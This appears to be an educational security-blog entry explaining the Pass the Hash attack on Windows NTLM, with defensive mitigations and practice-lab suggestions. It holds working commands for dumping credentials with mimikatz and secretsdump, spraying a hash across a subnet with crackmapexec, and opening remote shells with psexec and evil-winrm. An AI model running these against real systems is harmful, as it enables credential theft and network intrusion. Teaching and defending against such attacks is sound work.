

# Day 17 - Pass the Hash

## What It Is
Pass the Hash (PtH) is an attack where an attacker uses a stolen NTLM password hash to authenticate to a system without knowing or cracking the actual plaintext password. Windows authentication protocols accept the hash directly as proof of identity — so if you have the hash, you have access. It turns hash dumping from a stepping stone into a final destination.

## How It Works
Windows uses NTLM hashes for authentication in many scenarios — local logins, network shares, remote desktop, and more. When you log in, Windows doesn't send your plaintext password — it sends the NTLM hash as the credential. An attacker who steals that hash can replay it to authenticate as that user anywhere the hash is accepted.



Attack flow:
1. Attacker gains initial access to a Windows machine (any method)
2. Dumps NTLM hashes from memory using mimikatz or from the SAM database
3. Takes the hash — no cracking needed
4. Uses the hash directly to authenticate to other systems on the network
5. Moves laterally across the entire domain if an admin hash is obtained

```bash
# Step 1 - dump hashes from memory with mimikatz (run as admin/SYSTEM)
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

# output shows something like:
# Username: Administrator
# NTLM: aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# Step 2 - use the hash to authenticate (format is LM:NTLM)
# with crackmapexec
crackmapexec smb 192.168.1.0/24 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c

# with impacket psexec - get a shell on remote machine
psexec.py Administrator@192.168.1.10 -hashes aad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

## Real-World Example
In almost every Windows Active Directory penetration test, Pass the Hash is how lateral movement happens. An attacker compromises one workstation, dumps the local administrator hash, and discovers that the same local admin hash works on every other machine in the network because the IT team set up all machines with the same local admin password. One hash — hundreds of machines. This is exactly why Microsoft's LAPS (Local Administrator Password Solution) was created — to give every machine a unique local admin password.

## Why It Matters
From an attacker's side, PtH bypasses the need to crack passwords entirely. In large Windows environments where password reuse is common, a single dumped hash can mean access to dozens or hundreds of machines. Combined with a domain admin hash it means full domain compromise.

From a defender's side, Microsoft introduced Protected Users security group and Credential Guard in Windows 10/Server 2016 to prevent hash dumping from memory. Enabling these, disabling NTLM where possible in favor of Kerberos, and deploying LAPS for unique local admin passwords per machine are the key mitigations. Network segmentation also limits how far lateral movement can go even if a hash is stolen.

## Key Terms
- Pass the Hash: authenticating to a system using a stolen NTLM hash without knowing the plaintext password
- NTLM (NT LAN Manager): Windows authentication protocol that uses MD4 hashed passwords for credential exchange
- Lateral Movement: using access on one compromised machine to move to other machines on the same network
- Mimikatz: a tool that extracts plaintext passwords, hashes, and Kerberos tickets from Windows memory
- LAPS (Local Administrator Password Solution): Microsoft tool that assigns unique randomized passwords to local admin accounts on each machine

## One Tip / Tool

Tool: `mimikatz` for hash dumping and `crackmapexec` for using hashes across the network

```bash
# dump all hashes from the SAM database (offline - from a mounted drive)
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

# spray a hash across an entire subnet to find where it works
crackmapexec smb 192.168.1.0/24 -u Administrator -H [NTLM hash] --local-auth

# get an interactive shell using a hash
evil-winrm -i 192.168.1.10 -u Administrator -H [NTLM hash]
```

A good way to practice Pass the Hash safely is on **HackTheBox** or **TryHackMe** Windows machines — almost every Windows box involves some form of hash dumping and lateral movement. The room "Active" on HackTheBox is a classic example that walks through the exact PtH workflow in an Active Directory environment.
